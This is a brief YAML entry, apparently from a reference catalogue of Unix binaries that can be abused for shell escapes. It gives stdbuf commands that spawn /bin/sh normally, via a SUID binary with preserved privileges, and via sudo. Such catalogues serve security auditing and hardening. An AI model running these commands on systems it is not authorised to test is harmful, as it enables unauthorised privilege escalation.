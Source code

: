 functions:
  shell:
    - code: stdbuf -i0 /bin/sh
  suid:
    - code: ./stdbuf -i0 /bin/sh -p
  sudo:
    - code: sudo stdbuf -i0 /bin/sh
---
